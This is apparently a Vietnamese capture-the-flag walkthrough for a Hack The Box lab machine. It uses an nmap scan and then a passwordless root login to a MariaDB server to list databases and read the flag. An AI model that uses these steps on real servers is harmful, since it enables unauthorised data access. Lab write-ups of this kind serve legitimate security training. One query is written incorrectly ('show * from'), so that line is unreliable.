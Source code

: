 > Hiểu hơn về cách định hướng để tìm kiếm dữ liệu trong database
### 1. Tìm kiếm thông tin
###### IP: 10.129.39.254
##### + Tìm kiếm cổng và dịch vụ
` sudo nmap -sC -sV 10.129.39.254 `
##### => 3306/tcp mysql... : dịch vụ đang chạy là MySQL 5.5.5-10.3.27-MariaDB0+deb10u1
###### MySQL là dịch vụ quản lý database: khởi tạo, tùy chỉnh và cập nhật dữ liệu.
##### + Sử dụng MySQL để đăng nhập vào database của target:
` mysql -h 10.129.39.254 -u root `
###### -h: địa chỉ IP (hostname)
###### -u: username, mặc định là root
###### Để tên mặc định là một lỗi điển hình khi config
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/3cf7c13b-2281-46e9-b8f9-55ab8afdcc16)
### 2. Tìm kiếm thông tin sau khi exploit
##### + Sau khi được cấp cấp quyền truy cập vào mySQL thành công, bắt đầu tìm kiếm khai thác thông tin:
###### gõ /h hoặc help để xem thêm thông tin về cách sử dụng MariaDB
` MariaDB [(none)]> show databases; `
##### => 4 database sẽ xuất hiện, để chọn xem một database:
` MariaDB [(none)]> use htb;
##### + Xem các bảng trong database 'htb':
` show tables; `
##### => 2 table trong database: 'config' và 'users'
##### + Xem lần lượt các thông tin trong 2 table:
` show * from <tên bảng>; `
#####
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/1020464f-3627-4f9c-8417-473e6ca85b06)
##### Như vậy trích xuất flag thành công.
